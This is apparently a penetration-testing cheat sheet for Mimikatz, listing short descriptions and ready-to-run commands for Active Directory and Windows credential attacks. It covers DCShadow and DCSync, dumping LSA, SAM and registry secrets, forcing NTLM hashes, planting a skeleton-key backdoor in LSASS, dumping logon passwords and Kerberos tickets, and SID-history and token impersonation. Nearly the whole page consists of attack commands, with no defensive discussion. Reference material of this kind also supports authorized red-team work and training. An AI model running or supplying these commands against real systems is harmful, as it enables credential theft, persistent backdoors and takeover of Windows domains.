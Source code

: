 #### Active Directory Tampering <a href="#active-directory-tampering" id="active-directory-tampering"></a>

* **DCShadow**: Temporarily make a machine act as a DC for AD object manipulation.
  * `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`
* **DCSync**: Mimic a DC to request password data.
  * `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`

#### Credential Access <a href="#credential-access" id="credential-access"></a>

* **LSADUMP::LSA**: Extract credentials from LSA.
  * `mimikatz "lsadump::lsa /inject" exit`
* **LSADUMP::NetSync**: Impersonate a DC using a computer account's password data.
  * _No specific command provided for NetSync in original context._
* **LSADUMP::SAM**: Access local SAM database.
  * `mimikatz "lsadump::sam" exit`
* **LSADUMP::Secrets**: Decrypt secrets stored in the registry.
  * `mimikatz "lsadump::secrets" exit`
* **LSADUMP::SetNTLM**: Set a new NTLM hash for a user.
  * `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`
* **LSADUMP::Trust**: Retrieve trust authentication information.
  * `mimikatz "lsadump::trust" exit`

#### Miscellaneous <a href="#miscellaneous" id="miscellaneous"></a>

* **MISC::Skeleton**: Inject a backdoor into LSASS on a DC.
  * `mimikatz "privilege::debug" "misc::skeleton" exit`

#### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

* **PRIVILEGE::Backup**: Acquire backup rights.
  * `mimikatz "privilege::backup" exit`
* **PRIVILEGE::Debug**: Obtain debug privileges.
  * `mimikatz "privilege::debug" exit`

#### Credential Dumping <a href="#credential-dumping" id="credential-dumping"></a>

* **SEKURLSA::LogonPasswords**: Show credentials for logged-on users.
  * `mimikatz "sekurlsa::logonpasswords" exit`
* **SEKURLSA::Tickets**: Extract Kerberos tickets from memory.
  * `mimikatz "sekurlsa::tickets /export" exit`

#### Sid and Token Manipulation <a href="#sid-and-token-manipulation" id="sid-and-token-manipulation"></a>

* **SID::add/modify**: Change SID and SIDHistory.
  * Add: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
  * Modify: _No specific command for modify in original context._
* **TOKEN::Elevate**: Impersonate tokens.
  * `mimikatz "token::elevate /domainadmin" exit`
